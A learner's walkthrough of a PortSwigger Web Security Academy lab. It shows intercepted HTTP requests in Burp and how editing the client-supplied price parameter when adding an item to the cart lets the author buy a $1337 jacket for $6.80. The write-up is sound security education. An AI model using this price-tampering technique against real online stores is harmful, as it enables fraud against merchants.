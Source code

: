 This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket.

The lab says I can log in to my own account using the following credentials: `wiener:peter`

The jacket they asked us to buy is $1337, but we only have $100.

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FTdazfM8mKd62sM9sDNdp%2Fuploads%2Ft8FEkZXtvmgKnR5NkKPR%2FScreenshot%202023-12-17%20at%205.37.47%20PM.png?alt=media&token=dcf3808a-81a1-4c96-87e8-d93dbe216773)

I'll place the item in my cart, place the order to see the result first.

```
GET /cart?err=INSUFFICIENT_FUNDS HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

There is a error message that lets us know there is insufficient funds. In order to manipulate this, we have to see what result we get when we buy something within $100.

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FTdazfM8mKd62sM9sDNdp%2Fuploads%2Fehd4tD1G3mF1fGm30fHy%2FScreenshot%202023-12-17%20at%205.45.33%20PM.png?alt=media&token=633c0ed3-7a70-4495-b919-ee6ee2d445d6)

I'll turn on Burp Proxy, place the order and intercept the request:

```
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

We see from the request header there is `/order-confirmation?order-confirmed=true .`

Is there a way we can possibly paste this into the request for when we order the jacket? Let's try it.

```
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Let's send this modified request via Burp Repeater to see if it works!

```
HTTP/2 405 Method Not Allowed
Allow: GET
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

​

"Method Not Allowed"
```

Whoops. Maybe I went too far ahead. Let's try manipulating the data earlier on.

Going back to the lab description, it says we can buy items for an unintended price. This indicates to me that I can somehow manipulate the price when intercepting a request.

The request made when checking out does not show any way to do this, so let's try this earlier when we add the item to the cart.

```
POST /cart HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/product?productId=5
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=5&redir=PRODUCT&quantity=1&price=680
```

​



We see that from adding the cheaper item to our cart, we get the following at the body:

`productId=5&redir=PRODUCT&quantity=1&price=680`

Let's try intercepting the request to add the jacket to the cart:

`productId=1&redir=PRODUCT&quantity=1&price=133700`

This was found in its body. Let me change the price to that of the cheaper item:

`productId=1&redir=PRODUCT&quantity=1&price=680`

Let's try and forward this modified request:
![[Pasted image 20240509135839.png]]
As you can see, the price of the jacket has been successfully changed. Let's complete the purchase.
![[Pasted image 20240509135907.png]]
Nice!
Really learnt how there is logic flaws when it comes to validating inputs, and important vector I will take note of in the future!